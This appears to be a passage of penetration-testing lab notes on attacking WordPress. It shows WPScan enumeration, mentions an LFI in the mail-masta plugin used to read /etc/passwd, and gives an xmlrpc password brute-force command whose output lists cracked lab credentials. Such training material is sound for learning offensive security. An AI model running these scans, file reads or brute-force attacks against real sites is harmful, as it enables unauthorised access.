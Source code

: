 List methods available by running the `system.listMethods` method.

### WPScan Overview

Basically WPScan is a ruby app that can scan wordpress sites in a variety of ways. You should tailor your scan to your needs. Find all the commands with `wpscan --hh`.

There's a vulnerability [WPVulnDB](https://wpvulndb.com) that can be used to pull in all vulnerability information based on what the scan finds. There's a free plan for 50 requests a day. Once you sign up, provide your token with the --api-token parameter.

## WPScan Enumeration

### Enumerating a website with WPScan

Use the flag `--enumerate` to enumerate various compononets of the WordPress application.

```shell-session
$ wpscan --url http://blog.inlanefreight.com --enumerate --api-token Kffr4fdJzy9qVcTk<SNIP>
```

## Exploiting a Vulnerable Plugin

### Leveraging WPScan Results

Once you have the list of plugins you can go to [Exploit-db](https://www.exploit-db.com) to find information about whether it's exploitable.

For this we looked at the mail-masta v. 1.0 plugin that was installed. It has an LFI vulnerability detailed [here](https://www.exploit-db.com/exploits/40290). We just used the LFI to get the /etc/passwd file.

## Attacking WordPress Users

### WordPress User Bruteforce

WPScan can bruteforce using the `xmlrpc.php` page.
```shell-session
$ wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

[+] URL: http://blog.inlanefreight.com/                                                  
[+] Started: Thu Apr  9 13:37:36 2020                                                                                                                                               
[+] Performing password attack on Xmlrpc against 3 user/s

[SUCCESS] - admin / sunshine1
Trying david / Spring2016 Time: 00:00:01 <============> (474 / 474) 100.00% Time: 00:00:01

[i] Valid Combinations Found:
 | Username: admin, Password: sunshine1
```
